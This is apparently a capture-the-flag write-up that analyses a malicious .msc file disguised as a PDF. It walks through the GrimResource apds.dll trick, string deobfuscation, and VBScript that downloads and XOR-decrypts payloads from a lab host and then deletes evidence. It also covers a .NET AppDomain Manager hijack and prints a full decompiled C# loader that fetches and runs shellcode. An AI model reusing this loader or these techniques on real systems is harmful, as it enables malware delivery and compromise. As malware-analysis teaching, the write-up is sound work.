# Binary Badresources

## Scenario

From the spreadsheet

## Given artifact

An .msc file is a Microsoft Management Console (MMC) saved console file, pretending to be a pdf file. It is legitimately XML-based, MMC uses it to define which snap-ins, nodes, and views to load.

## Solving process

I don't truly know what to do with it, we can `cat` directly, but as it is described as "spreadsheet", I run `olevba` on it and save output to a text file.

Skimming through the output, we can see at the beginning its author makes the windows hidden :



When the victim double-clicks wanted.msc, the MMC window is immediately hidden. Nothing appears to happen - classic malware behavior.

```xml
<BookMark Name="SelectedNode" NodeID="13"/>
...
<String ID="39" ...>
  res://apds.dll/redirect.html?target=javascript:eval(external.Document.ScopeNamespace.GetRoot().Name);
</String>
```

Node 13 is pre-selected, and its URL is loaded into the MMC result pane. It uses `res://apds.dll/redirect.html` - a real Windows DLL (Application Publishing and Discovery Service) that hosts a redirect HTML page. This redirect page accepts a target= parameter and navigates to it, effectively running:



This is the "GrimResource" technique, abusing `apds.dll` as a trusted host to execute arbitrary JavaScript inside the MMC context.

When reading the malware, I encounter a strange chunk of this:



After some search, it turns out that `&#x20;` is just a space in HTML entity encoding. So nothing scary, just hide the code from quick visual scan.

Then I see a function returning a huge array, every string the script uses is stored here, URL-encoded and shuffled:



I also see a look-up function used to retrieve value from that array, along with it alias:





Simply, that function can be expressed as:

```javascript
function _0x53e0(index) {
    return theArray[index - 0xSomeOffset]
}
var _0x4ad86c = _0x53e0  // just an alias
```

So every time we see _0x4ad86c(0x1a1), it's just array[someNumber]. A string lookup.

From the last image, we also see the presence of a function like this:

```javascript
(function(_0x4f7c4e, _0xd4182a) {
    while (true) {
        try { /* math check */ break; }
        catch { array.push(array.shift()) }  // rotates the array
    }
}(_0x1215, 0x38542))
```

This rotates the array until a checksum matches. It's an anti-analysis trick, the array isn't in the right order until this runs.

As I'm not so familiar with javascript, let alone a heavily obfuscated script like this, I take the whole JS block to `deobfuscator.io`. Coincidentally, this script is also obfuscated by that tool, so the output is very beautiful:



Take that whole url-encoded block to cyberchef:



Let's open it in full-screen, we can see clearly it uses ceasar shift cipher here, each character is shifted to the left 4 positions in ASCII table, note the unprintable `shift out` character, it is 14-th character, when shifted left by 4, it becomes the 10-th character: the newline!



I intend to use ROT13 and change value to `-4`, but there comes a problem, **it shifts only letters!** . So instead I use ADD recipe with value 252, why 252 ? Because ADD works on raw bytes, so it wraps around.



Here is the full script:







```vbscript
strURL1 = "http://windowsupdate.htb/csrss.exe"      ← the malware
strURL2 = "http://windowsupdate.htb/csrss.dll"      ← the XOR key
strURL3 = "http://windowsupdate.htb/csrss.exe.config"  ← config for malware
strShowfileURL = "http://windowsupdate.htb/wanted.pdf"  ← decoy document
```

The DownloadFile sub at the bottom just does a plain HTTP GET and saves to `C:\Users\Public\`. All four files land there.

When reading the `strPowershellScript` part, note that we ignore the `& vbCrLf &` ..., it is just a vbs way of writing multiline strings. It takes two files, reads both as raw bytes, then XOR-decrypts the first file using the second file as a repeating key, and overwrites the first file with the result. So csrss.dll is not a dll, it's the XOR key!

Then the next loop runs the PowerShell XOR script 3 times, once for each file, always using csrss.dll as the key. After this loop, the three downloaded files are decrypted and ready to use.

Then it executes the malware and open the decoy PDF, remember the initial msc file is camouflaged as pdf ? The decoy pdf opens, and the victim know nothing about they being compromised.

Then it wipes the evidence:

```vbscript
objFSO.DeleteFile "C:\Users\Public\csrss.dll"
objFSO.DeleteFile "C:\Users\Public\csrss.exe"
objFSO.DeleteFile "C:\Users\Public\csrss.exe.config"
objFSO.DeleteFile "C:\Users\Public\temp.ps1"
```

Everything is deleted, except the decoy pdf itself!

Now let's decrypt those file, simulating the powershell script

```python
import sys
import os

def xor_decrypt(file_path, key_path):
    with open(key_path, 'rb') as f:
        key = f.read()
    
    with open(file_path, 'rb') as f:
        data = f.read()
    
    key_len = len(key)
    decrypted = bytes([data[i] ^ key[i % key_len] for i in range(len(data))])
    
    out_path = file_path + '.decrypted'
    with open(out_path, 'wb') as f:
        f.write(decrypted)
    
    print(f'Done: {out_path}')

key = 'csrss.dll'
targets = ['csrss.exe', 'csrss.exe.config', 'wanted.pdf']

for target in targets:
    xor_decrypt(target, key)
```

After get the decrypted file, the csrss.exe turns out to be `.NET` assembly, and the config file is ASCII text, so I `cat` it directly and notice a url is embedded:



The pdf is decoy as expected:



```xml
<appDomainManagerAssembly value="dfsvc" />
<appDomainManagerType value="dfsvc" />
<codeBase href="http://windowsupdate.htb/5f8f9e33...c.json"/>
```

This is a .NET AppDomain Manager hijack. The JSON file is not actually JSON, it's a .NET assembly (.dll) disguised with a .json extension. So I download that file and take both of them to `dnSpy`:



The main function of csrss.exe is empty. This is actually expected! dfsvc.exe (csrss.exe's name when loaded) is the legitimate Windows ClickOnce binary — the attacker didn't modify it at all. The whole trick is in the config file:

```xml
<appDomainManagerAssembly value="dfsvc" />
<appDomainManagerType value="dfsvc" />
```

This tells .NET: before you even run Main, load dfsvc.dll and run its AppDomain Manager. So the malicious code executes before `Main` is ever reached.

So I go on to inspect dfsvc.dll (the fake json file's name when loaded) and see this key function:

```c#
using System;
using System.IO;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;
using System.Threading.Tasks;

// Token: 0x02000002 RID: 2
public sealed class dfsvc : AppDomainManager
{
	// Token: 0x06000001 RID: 1 RVA: 0x000020C8 File Offset: 0x000002C8
	public override void InitializeNewDomain(AppDomainSetup appDomaininfo)
	{
		Task.Run(delegate()
		{
			dfsvc.cameldeeplybushes11928.silverquickclam06103();
		}).Wait();
	}

	// Token: 0x02000003 RID: 3
	internal static class avocadoreflectivefloor83964
	{
		// Token: 0x06000003 RID: 3
		[DllImport("kernel32")]
		public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

		// Token: 0x06000004 RID: 4
		[DllImport("kernel32.dll", ExactSpelling = true, SetLastError = true)]
		public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

		// Token: 0x06000005 RID: 5
		[DllImport("kernel32.dll", ExactSpelling = true, SetLastError = true)]
		public static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);

		// Token: 0x02000004 RID: 4
		[Flags]
		public enum AllocationType
		{
			// Token: 0x04000002 RID: 2
			Commit = 4096,
			// Token: 0x04000003 RID: 3
			Reserve = 8192,
			// Token: 0x04000004 RID: 4
			Decommit = 16384,
			// Token: 0x04000005 RID: 5
			Release = 32768,
			// Token: 0x04000006 RID: 6
			Reset = 524288,
			// Token: 0x04000007 RID: 7
			Physical = 4194304,
			// Token: 0x04000008 RID: 8
			TopDown = 1048576,
			// Token: 0x04000009 RID: 9
			WriteWatch = 2097152,
			// Token: 0x0400000A RID: 10
			LargePages = 536870912
		}

		// Token: 0x02000005 RID: 5
		[Flags]
		public enum MemoryProtection
		{
			// Token: 0x0400000C RID: 12
			Execute = 16,
			// Token: 0x0400000D RID: 13
			ExecuteRead = 32,
			// Token: 0x0400000E RID: 14
			ExecuteReadWrite = 64,
			// Token: 0x0400000F RID: 15
			ExecuteWriteCopy = 128,
			// Token: 0x04000010 RID: 16
			NoAccess = 1,
			// Token: 0x04000011 RID: 17
			ReadOnly = 2,
			// Token: 0x04000012 RID: 18
			ReadWrite = 4,
			// Token: 0x04000013 RID: 19
			WriteCopy = 8,
			// Token: 0x04000014 RID: 20
			GuardModifierflag = 256,
			// Token: 0x04000015 RID: 21
			NoCacheModifierflag = 512,
			// Token: 0x04000016 RID: 22
			WriteCombineModifierflag = 1024
		}
	}

	// Token: 0x02000006 RID: 6
	internal static class cameldeeplybushes11928
	{
		// Token: 0x06000006 RID: 6 RVA: 0x00002134 File Offset: 0x00000334
		public static void silverquickclam06103()
		{
			ServicePointManager.SecurityProtocol |= SecurityProtocolType.Tls12;
			byte[] array = dfsvc.cameldeeplybushes11928.indigowilddrain95354(new Uri(dfsvc.magentaboorishgirl01630.indigoinnocentbeast26519("ZzfccaKJB3CrDvOnj/6io5OR7jZGL0pr0sLO/ZcRNSa1JLrHA+k2RN1QkelHxKVvhrtiCDD14Aaxc266kJOzF59MfhoI5hJjc5hx7kvGAFw=")));
			uint num = (uint)array.Length;
			IntPtr intPtr = dfsvc.avocadoreflectivefloor83964.VirtualAlloc(IntPtr.Zero, num, 12288U, 64U);
			Marshal.Copy(array, 0, intPtr, (int)num);
			dfsvc.avocadoreflectivefloor83964.WaitForSingleObject(dfsvc.avocadoreflectivefloor83964.CreateThread(IntPtr.Zero, 0U, intPtr, IntPtr.Zero, 0U, IntPtr.Zero), uint.MaxValue);
		}

		// Token: 0x06000007 RID: 7 RVA: 0x000021A4 File Offset: 0x000003A4
		internal static byte[] indigowilddrain95354(Uri minttemporarybubble05246)
		{
			byte[] result;
			using (WebClient webClient = new WebClient())
			{
				result = webClient.DownloadData(minttemporarybubble05246);
			}
			return result;
		}
	}

	// Token: 0x02000007 RID: 7
	public static class magentaboorishgirl01630
	{
		// Token: 0x06000008 RID: 8 RVA: 0x000020FB File Offset: 0x000002FB
		public static string indigoinnocentbeast26519(string claretpurpleneck44589)
		{
			return dfsvc.magentaboorishgirl01630.charcoalsleepyadvertisement91853(Convert.FromBase64String(claretpurpleneck44589)).Replace("\0", string.Empty);
		}

		// Token: 0x06000009 RID: 9 RVA: 0x000021DC File Offset: 0x000003DC
		private static string charcoalsleepyadvertisement91853(byte[] creamgrievingcover13021)
		{
			string @string;
			using (AesManaged aesManaged = new AesManaged())
			{
				aesManaged.Mode = dfsvc.magentaboorishgirl01630.cipherMode;
				aesManaged.Padding = dfsvc.magentaboorishgirl01630.paddingMode;
				aesManaged.Key = dfsvc.magentaboorishgirl01630.steelshiveringpark49573;
				aesManaged.IV = dfsvc.magentaboorishgirl01630.fuchsiaaromaticmarket70603;
				ICryptoTransform transform = aesManaged.CreateDecryptor(aesManaged.Key, aesManaged.IV);
				using (MemoryStream memoryStream = new MemoryStream(creamgrievingcover13021))
				{
					using (CryptoStream cryptoStream = new CryptoStream(memoryStream, transform, CryptoStreamMode.Read))
					{
						byte[] array = new byte[creamgrievingcover13021.Length];
						int count = cryptoStream.Read(array, 0, array.Length);
						@string = Encoding.UTF8.GetString(array, 0, count);
					}
				}
			}
			return @string;
		}

		// Token: 0x0600000A RID: 10 RVA: 0x000022B4 File Offset: 0x000004B4
		private static byte[] charcoalderangedcarriage58994(string orangewealthyjump31951)
		{
			byte[] result;
			using (SHA256 sha = SHA256.Create())
			{
				result = sha.ComputeHash(Encoding.UTF8.GetBytes(orangewealthyjump31951));
			}
			return result;
		}

		// Token: 0x04000017 RID: 23
		private static string creamhollowticket40621 = "tbbliftalildywic";

		// Token: 0x04000018 RID: 24
		private static byte[] fuchsiaaromaticmarket70603 = Encoding.UTF8.GetBytes(dfsvc.magentaboorishgirl01630.creamhollowticket40621);

		// Token: 0x04000019 RID: 25
		private static string mintpumpedowl79724 = "vudzvuokmioomyialpkyydvgqdmdkdxy";

		// Token: 0x0400001A RID: 26
		private static byte[] steelshiveringpark49573 = dfsvc.magentaboorishgirl01630.charcoalderangedcarriage58994(dfsvc.magentaboorishgirl01630.mintpumpedowl79724);

		// Token: 0x0400001B RID: 27
		private static CipherMode cipherMode = CipherMode.CBC;

		// Token: 0x0400001C RID: 28
		private static PaddingMode paddingMode = PaddingMode.Zeros;
	}
}
```

It is long, but the flow is rather simple: 

```text
Encrypted data : "ZzfccaKJB3CrDvOnj/6io5OR7jZGL0pr0sLO/ZcRNSa1JLrHA+k2RN1QkelHxKVvhrtiCDD14Aaxc266kJOzF59MfhoI5hJjc5hx7kvGAFw="
Key            : SHA256("vudzvuokmioomyialpkyydvgqdmdkdxy")
IV             : UTF8("tbbliftalildywic")
Mode           : AES-CBC, Zero padding
```

Simulate it with cyberchef, we get the URL:



After downloading that file, it appears to be a fake xml, it is a shell code. I run `strings` to it and grab the flag:

